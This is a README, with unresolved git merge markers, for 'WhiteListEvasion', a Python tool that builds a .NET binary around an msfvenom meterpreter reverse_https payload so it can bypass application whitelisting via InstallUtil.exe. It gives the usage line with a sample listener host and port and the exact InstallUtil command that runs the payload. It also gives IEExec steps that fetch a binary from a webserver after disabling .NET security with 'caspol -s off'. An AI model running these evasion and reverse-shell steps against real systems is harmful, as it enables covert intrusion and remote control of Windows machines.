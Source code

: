 # WhiteListEvasion

1. InstallUtil.py

   Usage:
   python InstallUtil.py [--cs_file cs_filename] [--exe_name exe_filename] [--payload payload] [--lhost lhost] [--lport lport]

   python InstallUtil.py --cs_file temp.cs --exe_name temp.exe --payload windows/meterpreter/reverse_https --lhost 192.168.1.11 --lport 443

<<<<<<< HEAD
   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary will crash.
=======
   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary wil crash.
>>>>>>> 1f03b61af97f1d065563db1de546d9e3deb3feba

  Script.cs and script.exe are example output from InstallUtil.py.  To execute the execute, simply get the binary on disk and then run (something much like):
  C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U script.exe

  Requires mono, mono-develop, Python 2.7+, msfvenom (from metasploit). Tested and verified the script on a Kali linux VM.  Both 32-bit and 64-bit binaries tested and verified on Windows 7 with .NET 4.5.    

<<<<<<< HEAD
2. Test64 (IEExec 64-bit test application)

	Host this binary on a webserver.  To observe the binary without .NET Security, open up an administrative console, cd to C:\Windows\Microsoft.NET\Framework\v2.05727\ and then run 'caspol -s off'.  In an another window (can be non administrative), cd to the same .NET directory and execute IEExec <path to your file hosted on webserver>.  An example would look like this:
	C:\Windows\Microsoft.NET\Framework\v2.05727\> IEExec http://testserver.org/files/test64.exe
	
	To observe with .NET Security enabled, just simply run the above without ever disabling caspol.  You should be able to pull down strings from a file hosted by a webserver, but unable to execute,read, or write anything on the host system.
	
	To build the binary, ensure you have the x64 profile set in Visual Studio 2013.
	
=======
>>>>>>> 1f03b61af97f1d065563db1de546d9e3deb3feba
khr0x40sh@gmail.com 

